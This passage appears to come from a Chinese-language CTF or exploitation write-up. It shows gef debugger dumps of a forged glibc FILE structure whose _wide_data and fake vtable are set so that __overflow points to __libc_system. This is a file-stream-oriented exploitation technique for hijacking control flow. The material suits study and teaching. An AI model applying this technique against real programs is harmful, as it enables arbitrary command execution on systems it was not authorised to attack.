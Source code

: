 ```python
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0x0, 
    _codecvt = 0x0, 
    _wide_data = 0x55abb0545630, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x1, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x55abb0545658
}
```
wide_data:
```python
gef➤  x/16gx 0x55abb0545630
0x55abb0545630:	0x0000000000000000	0x000055abb0545658
0x55abb0545640:	0x0000000000000001	0x0000000000000002
0x55abb0545650:	0x0000000000000003	0x0000000000000000
0x55abb0545660:	0x0000000000000000	0x0000000000000000
0x55abb0545670:	0x00007f3955a42390	0x0000000000000000
```
满足 *(_wide_data+0x20) > *(_wide_data+0x18)
再看看 vtable:
```python
gef➤  p *(struct _IO_jump_t*)0x55abb0545658
$4 = {
  __dummy = 0x0, 
  __dummy2 = 0x0, 
  __finish = 0x0, 
  __overflow = 0x7f3955a42390 <__libc_system>, 
  __underflow = 0x0, 
  __uflow = 0x0, 
  __pbackfail = 0x0, 
  __xsputn = 0x0, 
  __xsgetn = 0x0, 
  __seekoff = 0x0, 
  __seekpos = 0x0, 
  __setbuf = 0x0, 
  __sync = 0x0, 
  __doallocate = 0x0, 
  __read = 0x0, 
  __write = 0x0, 
  __seek = 0x0, 
  __close = 0x0, 
  __stat = 0x0, 
  __showmanyc = 0x0, 
  __imbue = 0x0
}
```

